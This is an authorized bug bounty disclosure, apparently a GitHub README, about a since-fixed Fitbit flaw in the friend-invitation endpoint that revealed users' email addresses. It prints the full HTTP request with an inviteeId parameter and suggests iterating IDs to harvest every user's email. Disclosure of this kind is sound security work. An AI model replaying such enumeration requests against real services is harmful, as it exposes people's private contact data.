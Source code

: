 ```
Authorized Bug Bounty Disclosure
Target: Fitbit.com
Bug Type: User Email Disclosure / Privacy
Disclosure Verification: Fitbit Authorized Disclosure on 03-09-2018
```
### Summary
Identified a method to enumerate email addresses from any user :ok_hand:

### Notes:
Fitbit was extremely responsive and resolved this in a timely manner :two_hearts:

### What
Through manipulation of the friend request logic (where Fitbit users can add friends and chat with them), you are able to identify their email addresses even before they accept your friend request. Normally, email addresses are assumed to be completely private.

By programmatically submitting this request with randomized or systematic progression of the INVITEEID, it would be possible to farm all email addresses for the entire user base on Fitbit.com

### When
Bug discovered: 2016-04-01<br>
Bug Resolved: 2016-05-10

### How
Using the payload below at [fitbit.com/friends/friendInvitation], the server request responds with the users email address:<br>
```
POST /friends/friendInvitation HTTP/1.1
Host: www.fitbit.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: https://www.fitbit.com/invitations/accept/friend?senderId=[SENDERID]&csrfToken=[CSRFTOKEN]
Content-Length: 457
Cookie: cookieInfoConnection: keep-alive

inviteeId=[6DIGITID]

[Some info redacted]
```

The server response (meta):
```
Friend request sent to: [Email Address]
```

### Where
This was found when playing around with the friend modules :notes:

### Why
This is a logic issue that compromises privacy, and could be used to farm and identify all users on Fitbit.

